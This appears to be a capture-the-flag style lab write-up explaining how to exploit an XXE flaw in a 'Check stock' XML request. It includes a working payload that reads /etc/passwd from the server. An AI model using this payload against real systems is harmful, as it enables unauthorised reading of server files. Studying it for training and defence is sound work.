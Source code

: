# Exploiting XXE using external entities to retrieve files
# Objective
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.\
To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format.

|![](Images/image.png)|
|:--:| 
| *Check stock request* |

## Exploitation
The XXE injection (file retrieval) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

|![](Images/image-1.png)|
|:--:| 
| *XXE injection - File retrieval* |
